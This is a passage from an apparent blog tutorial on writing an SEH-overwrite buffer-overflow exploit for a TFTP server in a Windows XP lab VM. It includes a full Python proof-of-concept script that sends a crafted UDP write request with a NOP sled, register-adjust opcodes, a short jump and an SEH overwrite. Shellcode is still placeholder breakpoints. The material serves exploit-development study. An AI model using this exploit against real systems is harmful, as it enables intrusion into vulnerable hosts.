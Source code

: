
[![](https://2.bp.blogspot.com/-1qy_IN3791Q/UK6UV6acVTI/AAAAAAAAAIM/8EEC0Sx8g4Q/s0/Selection_042.png)](https://2.bp.blogspot.com/-1qy_IN3791Q/UK6UV6acVTI/AAAAAAAAAIM/8EEC0Sx8g4Q/s0/Selection_042.png)

Ok so now we have solved that issue. However two problems remain:

* We now have to jump to the beginning of the 41's and not the `\x90`'s at the beginning. Thus we have to increase our EBP some more to point to the `\x41`'s now.
* We need to generate some shellcode baby!



Adjusting Our Registers......Again



Ok so after a bit of playing around we find that we need add another 3 copies of our `ADD EBP, 50` set of instructions to our exploit. I tried doing it via the regular method of looking at the offsets manually but I found I was 2 sets off:



[![](https://1.bp.blogspot.com/-777Htik5UA4/UK6X7ToRbSI/AAAAAAAAAIg/9d-ja9oKs2E/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_044.png)](https://1.bp.blogspot.com/-777Htik5UA4/UK6X7ToRbSI/AAAAAAAAAIg/9d-ja9oKs2E/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_044.png)



So if we use 3 instead this is the code should get:



```python
import socket 

host = "127.0.0.1"
port = 69 

filename = "\x90" * 236
filename += "A" * (1492-126-236) # 126 for the space that we jump to. 236 for the space up to and including the 4 byte null space.
filename += "\x83\xC5\x50" * 18
filename += "\xFF\xE5"
filename += "\xCC" * ( 126 - ((18 * 3) + 2) )
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```



[![](https://4.bp.blogspot.com/-UQ-MsWQuL2U/UK6cYm_l-XI/AAAAAAAAAI0/uL1dbrC6yWY/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_046.png)](https://4.bp.blogspot.com/-UQ-MsWQuL2U/UK6cYm_l-XI/AAAAAAAAAI0/uL1dbrC6yWY/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_046.png)

